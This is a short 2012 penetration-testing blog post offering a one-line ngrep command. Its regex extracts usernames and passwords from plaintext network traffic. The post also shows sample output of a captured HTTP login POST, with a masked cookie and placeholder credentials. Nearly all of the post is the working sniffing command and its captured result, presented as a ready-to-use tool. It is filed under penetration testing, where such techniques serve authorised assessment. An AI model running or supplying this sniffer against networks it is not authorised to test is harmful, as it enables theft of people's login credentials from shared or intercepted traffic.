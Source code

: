 ```yaml
---
title: Quick and dirty ngrep credential (username/password) sniffer
author: Jan Seidl
type: post
date: 2012-10-31T02:59:25+00:00
url: /posts/quick-and-dirty-ngrep-credential-usernamepassword-sniffer/
categories:
  - Penetration Testing
tags:
  - credential sniffing
  - ngrep
  - regular expression
  - sniffing

---
```

Some time ago <a href="/posts/quick-and-dirty-tcpdump-credential-usernamepassword-sniffer/" title="QUICK AND DIRTY TCPDUMP CREDENTIAL (USERNAME/PASSWORD) SNIFFER" target="_blank">I&#8217;ve posted</a> a quick (and dirty too!) command-liner using `tcpdump` to sniff plaintext credentials over the wire.

Now I&#8217;ve acomplished the same thing with a shorter regex and `ngrep` tool.

{{< highlight bash >}}
ngrep '[&\s?](?:login|user(?:name|)|p(ass(?:word|wd|)|w|wd))[\s:=]\s?([^&\s]*)'  -q -i{{< /highlight >}}

_Where `-i` is for case-insensitive and `-q` for more precise output. See `man ngrep` for additional information._

And the output is as follows:

{{< highlight bash >}}
interface: eth0 (10.1.1.0/255.255.255.0)
match: [&\s?](?:login|user(?:name|)|p(ass(?:word|wd|)|w|wd))[\s:=]\s?([^&\s]*)

T 10.1.1.111:49196 -> 96.126.98.110:80 [AP]
  POST /users/signin <acronym title="HyperText Transfer Protocol">HTTP</acronym>/1.1..Host: www.commandlinefu.com..Connection: ke
  ep-alive..Content-Length: 43..Cache-Control: max-age=0..Origin: http://w
  ww.commandlinefu.com..User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleW
  ebKit/536.11 (KHTML, like Gecko) Ubuntu/12.04 Chromium/20.0.1132.47 Chro
  me/20.0.1132.47 Safari/536.11..Content-Type: application/x-www-form-urle
  ncoded..Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
  *;q=0.8..Referer: http://www.commandlinefu.com/users/signin..Accept-Enco
  ding: gzip,deflate,sdch..Accept-Language: en-US,en;q=0.8,pt-BR;q=0.6,pt;
  q=0.4..Accept-Charset: <acronym title="International Organization for Standardization">ISO</acronym>-8859-1,utf-8;q=0.7,*;q=0.3..Cookie: XXXXXXXXX
  XXXXXXXXXXXX....username=aaaa&password=bbbbb&submit=Let+me+in%21                                        
{{< /highlight >}}

Hope that helps!
